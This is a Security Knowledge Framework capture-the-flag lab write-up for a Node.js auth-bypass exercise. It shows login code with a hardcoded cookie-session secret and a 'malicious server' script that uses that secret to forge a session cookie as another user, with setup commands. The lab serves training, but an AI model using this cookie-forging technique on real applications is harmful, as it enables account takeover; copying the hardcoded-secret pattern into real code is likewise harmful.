 # KBID xxx - Auth-bypass

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

The application suggests we login with admin/admin as username/password.

PRINTSCREEN PLACEHOLDER

Once we login we see an API key.

PRINTSCREEN PLACEHOLDER

Let's have a look at the source code:

```javascript
app.all("/login", (req, res) => {
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  const api = "SELECT * FROM preferences WHERE UserId = ?";
  if (req.method === "POST") {
    db.get(sql, [req.body.username, req.body.password], (err, row) => {
      if (row) {
        req.session.userId = row.UserId;
        req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
        req.session.loggedIn = true;
        db.get(api, [req.session.userId], (err, row) => {
          res.render("home.ejs", { api: row.API_key });
        });
      } else {
        res.render("index.ejs");
      }
    });
  } else {
    db.get(api, [req.session.userId], (err, row) => {
      res.render("home.ejs", { api: row.API_key });
    });
  }
});
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```javascript
const cookieSession = require("cookie-session");
const express = require("express");
const cookieParser = require("cookie-parser");
const app = express();

app.use(express.static(__dirname));
app.use(cookieParser());
app.use(
  cookieSession({
    name: "session",
    keys: ["e5ac-4ebf-03e5-9e29-a3f562e10b22"],
    httpOnly: false,
    maxAge: 86400000,
  })
);

app.get("", (req, res) => {
  req.session.userId = 2; // CHANGED THE USER ID
  req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
  req.session.loggedIn = true;
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express ejs cookie-session cookie-parser
```

Save the following snippet code into /views/evil.js

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ node evil_server.js
```

PRINTSCREEN PLACEHOLDER

Now we can replace our original cookie with the tampered cookie.

PRINTSCREEN PLACEHOLDER

Refresh the page:

PRINTSCREEN PLACEHOLDER

## Additional sources

https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html
